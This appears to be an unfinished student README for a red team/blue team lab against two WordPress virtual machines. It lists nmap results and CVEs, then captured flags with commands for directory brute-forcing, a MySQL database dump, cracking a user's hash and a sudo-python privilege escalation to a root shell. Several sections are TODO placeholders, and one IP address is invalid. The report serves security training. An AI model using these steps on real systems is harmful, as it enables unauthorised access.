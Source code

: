 # WordPressRedTeam_BlueTeam

The network depicted below was used to test exploits and determine vulnerabilities within the WordPress servers.
![TODO: Update the path with the name of your diagram](https://github.com/joshgarlandreese/WordPressRedTeam_BlueTeam/blob/master/Topology%20Final%20Project.png)
Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

# Exposed Services

The nmap scan outlined below identifies the potential points of entry:

nmap $ nmap -sC -sV 192.168.1.110

Target 1:
- Port 22 / SSH
- Port 80 / http
- Port 111 / rpcbind

![TODO: Update the path with the name of your diagram](https://github.com/joshgarlandreese/WordPressRedTeam_BlueTeam/blob/master/nmap%20vm1.png)

nmap $ nmap -sC -sV 192.168.1.115

Target 2:
- Port 22 / SSH
- Port 80 / http
- Port 111 / rpcbind

![TODO: Update the path with the name of your diagram](https://github.com/joshgarlandreese/WordPressRedTeam_BlueTeam/blob/master/NMAP%20final%20Project.png)

# Critical Vulnerabilities

The following vulnerabilities were identified on each target:

Target 1
- CVE-2019-12215 Full Path Disclosure (192.268.1.110/service.html)
- CVE-2019-15653 html password disclosure - The password hash is viewable in plaintext (192.168.1.110/service.html)
- Wpscan exposed username which allowed brute force of password information.  User access to the wp-config.php file via nano.  This exposed the root user and password.

Target 2
- CVE-2019-12215 Full Path Disclosure (192.168.1.115/vendor/PATH)
- CVE-2015-8476 Php mailer (192.168.1.115/vendor/PHPMailerAutoload.php)

# Exploitation

The Red Team was able to penetrate both Target 1 and Target 2 and retrieve the following confidential data:

Target 1
- flag1.txt: 9bbcb33e11b80be759c4e844862482
Exploit Used: 
!TODO: Identify the exploit used.
!TODO: Include the command run.
- flag2.txt: fc3fd58dcdad9ab23faca6e9a36e581c
Exploit Used
!TODO: dirbuster - exposed directory path (flag was discovered at 192.168.1.115/vendor/PATH)
!TODO: dirbuster -l /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -e -u http://192.168.1.110
- flag3.txt: afc01ab56b50591e7dccf93122770cd2
Exploit Used
!TODO: exposed root password and then uncovered hashes via mysql
!TODO: mysql -u root -p wordpress -> show databases; -> select * from wp_posts;
- flag4.txt: 715dea6c055b9fe3337544932f2941ce
Exploit Used
- john hash.txt to translate steven’s hash into password “pink84” -> logged in with steven’s credentials and then ran bin/bash command  to gain root
- ssh steven@192.168.1.110 -> sudo /usr/bin/python -> import os -> os.system(‘ /bin/bash’) -> ls -> cat flag4.txt

Target 2
flag1.txt: a2c1f66d2b8051bd3a5874b5b6e43e21
Exploit Used 
!TODO: dirbuster - exposed directory path (flag was discovered at 192.168.1.115/vendor/PATH)
!TODO: dirbuster -l /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -e -u http://192.168.1.115
flag2.txt: 
Exploit Used
!TODO: Identify the exploit used.
!TODO: Include the command run.
flag3.txt:  a0f568aa9de277887f377887f37730d71520d9b
Exploit Used
!TODO: dirbuster - exposed directory path (flag was discovered at 192.168.1.115/wordpress/wp-content/uploads/2018/11/)
!TODO: dirbuster -l /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -e -u http://192.168.1.115
flag4.txt: 
Exploit Used
!TODO: Identify the exploit used.
!TODO: Include the command run.

